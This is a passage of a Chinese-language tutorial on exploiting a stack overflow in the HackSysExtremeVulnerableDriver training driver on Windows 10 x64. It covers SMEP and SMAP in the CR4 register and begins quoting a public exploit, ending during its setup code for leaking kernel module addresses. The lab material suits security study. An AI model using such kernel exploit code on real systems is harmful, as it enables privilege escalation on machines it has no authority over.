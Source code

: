  

![](https://bbs.pediy.com/upload/attach/202106/817966_FXFF3C6RPFZHR4T.jpg)

 

![](https://bbs.pediy.com/upload/attach/202106/817966_7MJJWR27DR72E5S.jpg)

 

设置 SMEP 与 SMAP 位于 CR4 寄存器中：

 

![](https://bbs.pediy.com/upload/attach/202106/817966_HTKDVRQ4RMYQJC8.jpg)

 

本节内容笔者于 Windows 10 1709 x64 环境中调试完成 (Exp 并未执行成功，但笔者从中学到如何获取内核基址以及绕过 SMEP)，内核版本如下：

> Windows 10 Kernel Version 16299 MP (1 procs) Free x64  
> Built by: 16299.637.amd64fre.rs3_release_svc.180808-1748

 

查看 CR4 寄存器内容：

 

![](https://bbs.pediy.com/upload/attach/202106/817966_MDNTUNUKCA2N3EX.jpg)

 

可以看到已启用 SMEP。完整 Exploit 如下 (来自 [h0mbre's Github](https://github.com/h0mbre/Windows-Exploits/blob/master/Exploit-Code/HEVD/x64_StackOverflow_SMEP_Bypass.cpp))：

```
#include #include #include using namespace std;
 
#define DEVICE_NAME             "\\\\.\\HackSysExtremeVulnerableDriver"
#define IOCTL                   0x222003
 
typedef struct SYSTEM_MODULE {
    ULONG                Reserved1;
    ULONG                Reserved2;
    ULONG                Reserved3;
    PVOID                ImageBaseAddress;
    ULONG                ImageSize;
    ULONG                Flags;
    WORD                 Id;
    WORD                 Rank;
    WORD                 LoadCount;
    WORD                 NameOffset;
    CHAR                 Name[256];
}SYSTEM_MODULE, * PSYSTEM_MODULE;
 
typedef struct SYSTEM_MODULE_INFORMATION {
    ULONG                ModulesCount;
    SYSTEM_MODULE        Modules[1];
} SYSTEM_MODULE_INFORMATION, * PSYSTEM_MODULE_INFORMATION;
 
typedef enum _SYSTEM_INFORMATION_CLASS {
    SystemModuleInformation = 0xb
} SYSTEM_INFORMATION_CLASS;
 
typedef NTSTATUS(WINAPI* PNtQuerySystemInformation)(
    __in SYSTEM_INFORMATION_CLASS SystemInformationClass,
    __inout PVOID SystemInformation,
    __in ULONG SystemInformationLength,
    __out_opt PULONG ReturnLength
    );
 
HANDLE grab_handle() {
```